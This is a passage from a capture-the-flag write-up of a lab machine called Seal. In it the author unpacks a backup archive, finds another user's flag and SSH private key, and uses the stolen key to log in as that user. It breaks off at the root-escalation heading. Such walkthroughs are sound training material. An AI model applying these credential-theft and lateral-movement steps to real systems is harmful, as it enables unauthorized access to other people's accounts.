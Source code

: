 I could also have done the extraction in one step with tar from the
start:



    tomcat@seal:/dev/shm$ tar zxf backup-2021-09-04-07\:59\:32.gz --force-local
    tomcat@seal:/dev/shm/dashboard$ ls   
    bootstrap  css  images  index.md  scripts  uploads



From here I find luis' homedir in `uploads`:



    tomcat@seal:/dev/shm/dashboard/uploads$ ls
    luis
    tomcat@seal:/dev/shm/dashboard/uploads$ cd luis/
    tomcat@seal:/dev/shm/dashboard/uploads/luis$ ls
    gitbucket.war  user.txt



And I can grab the flag:



    tomcat@seal:/dev/shm/dashboard/uploads/luis$ cat user.txt
    715c92dd************************



### SSH

There's also an SSH key in `.ssh`, and the public key matches what's in
`authorized_keys`:



    tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ ls -l
    total 12
    -rw-r----- 1 tomcat tomcat  563 May  7 06:10 authorized_keys
    -rw------- 1 tomcat tomcat 2590 May  7 06:10 id_rsa
    -rw-r----- 1 tomcat tomcat  563 May  7 06:10 id_rsa.pub
    tomcat@seal:/dev/shm/dashboard/uploads/luis/.ssh$ md5sum authorized_keys id_rsa.pub 
    a03275942de46b5d0de68dfa7ef99e2a  authorized_keys
    a03275942de46b5d0de68dfa7ef99e2a  id_rsa.pub



I'll copy the private key (`id_rsa`) to my workstation and connect with
SSH:



    oxdf@parrot$ ssh -i ~/keys/seal-luis luis@seal.htb
    ...[snip]...
    luis@seal:~$



## Shell as root

### Enumeration
